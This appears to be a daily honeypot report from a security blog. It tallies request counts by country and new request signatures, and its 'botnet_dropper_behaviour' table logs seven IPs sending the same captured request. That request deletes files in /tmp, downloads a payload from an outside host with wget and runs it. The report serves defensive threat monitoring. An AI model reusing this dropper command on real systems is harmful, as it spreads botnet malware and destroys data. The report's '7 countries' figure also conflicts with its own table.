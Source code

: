 ```yaml
---
title: "Report: 2025-07-10 "
date: 2025-07-10
desciption: "Report: 2025-07-10" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-10 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 7 stage 1 IP address(es), linked to 1 dropper URL(s).  

There are 4 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 707 requests were recorded during the day, originating from 7 different countries, with a peak of 345 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr     | request                                                                              |
|:----------------|:-------------------------------------------------------------------------------------|
| 104.239.177.48  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1 |
| 8.219.182.182   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1 |
| 8.222.215.216   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1 |
| 118.194.229.182 | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1 |
| 8.209.211.125   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1 |
| 140.246.123.124 | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1 |
| 8.222.187.219   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                        |
|----:|----------------------:|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  28 |                     4 | \x12\x01\x00^\x00\x00\x01\x00\x00\x00$\x00\x06\x01\x00*\x00\x01\x02\x00+\x00\x01\x03\x00,\x00\x04\x04\x000\x00\x01\x05\x001\x00$\x06\x00U\x00\x01\xFF\x04\x07\x0C\xBC\x00\x00\x00\x00\x00\x00\x15\xD0\x00\xAF/\x09,\xF6\x7F\x00\x00\x10\xF8\xEDL\x06\x00\x00\x00\xE0\x81.,\xF6\x7F\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01 |
| 120 |                     1 | GET http://judge3.api.proxyscrape.com/ HTTP/1.1                                                                                                                                                                                                                                                                                                |
| 122 |                     1 | CONNECT ssl-judge2.api.proxyscrape.com:443 HTTP/1.1                                                                                                                                                                                                                                                                                            |
| 190 |                     1 | GET /socket.io/1/?t=1752159856139 HTTP/1.1                                                                                                                                                                                                                                                                                                     |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   345 | US                 |
|  1 |                    52 | GB                 |
|  2 |                    34 | NL                 |
|  3 |                    33 | RU                 |
|  4 |                    29 | KR                 |
|  5 |                    25 | CN                 |
|  6 |                    17 | DE                 |
|  7 |                    16 | FR                 |
|  8 |                    16 | BG                 |
|  9 |                    15 | PL                 |
| 10 |                    12 | AU                 |
| 11 |                    12 | MC                 |
| 12 |                    12 | MX                 |
| 13 |                    12 | SC                 |
| 14 |                    11 | SG                 |
| 15 |                     8 | MU                 |
| 16 |                     7 | IN                 |
| 17 |                     7 | JP                 |
| 18 |                     4 | BR                 |
| 19 |                     4 | IL                 |
| 20 |                     4 | UA                 |
| 21 |                     4 | TR                 |
| 22 |                     4 | VN                 |
| 23 |                     3 | BE                 |
| 24 |                     3 | KZ                 |
| 25 |                     2 | IT                 |
| 26 |                     2 | AE                 |
| 27 |                     2 | IE                 |
| 28 |                     2 | EE                 |
| 29 |                     1 | SE                 |
| 30 |                     1 | HK                 |
| 31 |                     1 | TW                 |
| 32 |                     1 | PK                 |
| 33 |                     1 | PT                 |
| 34 |                     1 | SA                 |
| 35 |                     1 | ES                 |
| 36 |                     1 | ID                 |
| 37 |                     1 | GH                 |
| 38 |                     1 | EG                 |
